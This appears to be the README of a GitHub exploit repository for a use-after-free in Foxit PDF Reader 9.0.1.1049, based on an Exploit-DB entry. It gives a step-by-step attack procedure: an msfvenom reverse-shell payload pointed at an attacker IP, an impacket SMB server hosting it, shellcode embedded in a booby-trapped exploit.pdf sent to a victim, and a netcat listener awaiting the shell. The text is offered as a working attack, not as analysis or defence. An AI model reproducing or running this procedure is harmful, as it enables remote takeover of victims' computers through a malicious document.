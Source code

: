 Foxit PDF Reader 9.0.1.1049 - Pointer Overwrite Use-After-Free (Without Metasploit)

Based on https://www.exploit-db.com/exploits/45269

1. Generate payload, the one i used for testing is:
msfvenom -p windows/shell_reverse_tcp LHOST=10.1.1.10 LPORT=443 -f exe > shell.exe

2. Open an SMB server with the payload in it
impacket-smbserver sharename /path/to/payload

3. Generate shellcode with the following script
ruby generate_shellcode.rb

4. Copy the output of the script and put it inside exploit.pdf, on the reclaim() function, where specified

5. Transfer exploit.pdf to victim

6. Open a listener on the attacking machine, in my case:
nc -lnvp 443

7. Open exploit.pdf with the vulnerable version of foxit reader on the target

#PWNED
